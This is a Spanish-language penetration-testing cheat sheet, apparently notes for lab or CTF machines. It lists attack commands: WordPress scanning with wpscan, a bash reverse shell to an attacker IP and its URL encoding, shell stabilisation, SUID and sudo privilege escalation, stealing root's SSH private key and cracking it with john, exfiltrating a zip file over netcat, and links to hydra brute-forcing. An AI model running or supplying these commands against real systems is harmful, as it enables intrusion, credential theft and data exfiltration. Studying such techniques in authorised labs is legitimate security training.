 **Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:**

wpscan –url http://ip

**Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:**
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

**Opciones para crear una shell inversa:**
[revshell](https://www.revshells.com/)

 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 
 **En caso de querer codificarla en url, podemos realizar el siguiente comando:**
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"

**Sacar hashes de ficheros zip:**
zip2john muyconfidencial.zip > hash_muyconfidencial

**Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234**
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos stty rows x columns y

**Página donde ver como escalar privilegios con los binarios (sudo -l )**
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

**Visualizar todos los ficheros ordenados por directorios para ver los permisos**
ls -la /* | less

**Página donde se ven diferentes tipos de ataque:**
[deephacking](https://deephacking.tech/)

**Ejemplo de uso para escalar priv con rutas absolutas:**
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

**Escalar priv por medio de SUID**
Dar privilegios p.j /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

**Ejemplo de Búsqueda de Archivos SUID** 
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios).
**Otro ejemplo pero con un editor como puede ser vim:**
vim -c una vez dentro ejecutar: ':!/bin/sh'

**En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en**
/root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash. -> ssh2john ficherodondeguardamoslakey > salidaficherohasheado            john ficherohasheado –wordlist /usr/share/wordlist/rockyou   Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey
Enviar ficheros por netcat (Victima) nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip

**Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login**
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)
